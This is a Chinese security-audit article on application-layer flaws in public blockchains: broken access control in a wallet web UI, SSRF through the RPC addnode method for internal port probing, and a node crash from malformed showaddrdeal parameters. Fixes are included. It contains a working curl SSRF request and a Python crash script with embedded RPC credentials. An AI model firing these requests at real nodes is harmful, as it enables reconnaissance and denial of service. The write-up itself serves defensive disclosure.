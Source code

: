 

# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI 访问控制

#### 基本介绍

公链前端 Web UI(用户界面) 是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面，公链前端 Web UI 通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端 Web UI 的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端 Web UI 允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端 Web UI 显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端 Web UI 提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端 Web UI 显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端 Web UI 提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了 web UI 交互式界面，遂对 web 界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过 burpsuite 让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以 wallet 为例做说明：  
对源代码进行跟踪分析发现，在源代码中的 app.controllers.js 文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[![](assets/1706512976-0d14ece9a6aabc5d90d0c3c1af13a482.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js 逻辑设计

[![](assets/1706512976-b8b76745d5a17ab5ba03d2b7c41c1267.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对 WalletCtrl 进行了跟踪分析，在 WalletController 类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller 处理逻辑：  
[![](assets/1706512976-496ff8b8bb2214f6f605ce702373519d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService 处理逻辑  
[![](assets/1706512976-75515c8badd5a401e029803b5d5337ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入 wallet 界面后跳转至认证页面：  
[![](assets/1706512976-fe3403006e597b7f26e96be6c51c97a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[![](assets/1706512976-70023e5ae8451d3d5d5016fae7a4fc8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[![](assets/1706512976-12fb1dfa5226ac318a5ce4f9c6059aa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[![](assets/1706512976-3abac757129842303e06e1717a1ce81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到 seed phrase 则可以本地 web 实现转账，无视这里的认证

[![](assets/1706512976-bb904c4c114f3981fd23d01a64a1f817.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[![](assets/1706512976-8820ef3a99cd146061e442c42a76db2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[![](assets/1706512976-08f25b285ba340e93a99b2f09e6b625f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处 SSRF

#### 风险说明

当公链允许 RPC 远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用 RPC 远程“添加节点”的功能进行 SSRF 攻击，例如通过对特定的 IP 地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时 5s 响应）探测服务器端私有 IP 地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点 RPC 接口处未对目标 IP 地址作限制，攻击者可通过构造特定的 IP 地址和端口组合并结合服务端响应时间探测服务端私有 IP 的端口开放情况，用于进一步攻击。  
addnode 逻辑设计：

[![](assets/1706512976-c644e406b9581f9b3e2c24bb8e624208.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```plain
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[![](assets/1706512976-59e129e7a4cdda94f70a0d0556486020.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[![](assets/1706512976-4c36e6cc4f5e17b9ec961d167a0e8e12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点 IP 地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程 RPC 调用时进行身份认证

### RPC 参数畸形请求导致 DDOS

#### 基本介绍

公链 RPC(远程过程调用) 接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互，RPC 接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用 Showaddrdeal 来查看 address，txid 等详细交易信息时，如果传入的 address 为根节点或者传入的 txid 不存在、为空、非法都会导致根节点直接 Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal 逻辑：

[![](assets/1706512976-ed6527034b02bc0de6af57b6726d1fce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[![](assets/1706512976-300af5dc8743ab72c4cc43ed36010867.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程 RPC 无法正常调用，被拒绝连接：

[![](assets/1706512976-8e41be7515351179a51d63a4779abf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal 新增验证参数为空的验证：

[![](assets/1706512976-1f1f6f0ddcd74252b4283e78320a83cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了 WEB UI 的安全、RPC 接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP 的其他安全问题 (DOS、鉴权错误、未授权等)、Geth 的安全问题、安全策略问题等等
